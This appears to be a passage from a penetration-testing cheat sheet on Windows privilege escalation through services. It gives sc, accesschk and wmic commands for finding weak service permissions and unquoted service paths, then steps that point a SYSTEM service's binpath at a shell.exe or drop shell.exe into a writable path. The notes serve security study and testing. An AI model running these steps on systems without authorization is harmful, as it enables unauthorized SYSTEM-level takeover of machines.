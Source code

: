 **Services**

```powershell
sc query <service_name>
accesschk64.exe -uwcqv <user> *
sc qc "service"
```

`IKEEXT`

#### Service Misconfiguration

**Insecure Service Permissions**

> If our user has permission to change the configuration of a service which runs with SYSTEM privileges, we can change the executable the service uses to one of our own. Potential Rabbit Hole: If you can change a service configuration but cannot stop/start the service, you may not be able to escalate privileges!”

Enumerate for vulnerable services (Can change Authenticated Users to other group)

```powershell
.\accesschk.exe /accepteula -uwcqv "Authenticated Users" *
```

Enumerate for user permisson on a service

```powershell
.\accesschk.exe /accepteula -ucqv <service_name>
```

Then, change service config

```powershell
sc config <service_name> binpath= "C:\Cas\shell.exe"
```

**Unquoted Service Path**

> In Windows, if the service is not enclosed within quotes and is having spaces, it would handle the space as a break and pass the rest of the service path as an argument. If we have permission to write a custom file to wither c:\ or c:\Program Files or c:\Program Files\Unquoted Path Service, then we can exploit this vulnerability to gain elevated privileges.

Enumerate for unquoted service paths

```powershell
wmic service get name,displayname,pathname,startmode |findstr /i "Auto" |findstr /i /v "C:\Windows\" |findstr /i /v """
```

Check user permission on folders:

```powershell
.\accesschk.exe /accepteula -uwdqs users "C:\Program Files\Unquoted Path Service\Common Scripts"
```

```powershell
copy shell.exe "C:\Program Files\Unquoted Path Service\Common.exe"
```

**Weak Registry Permissions**
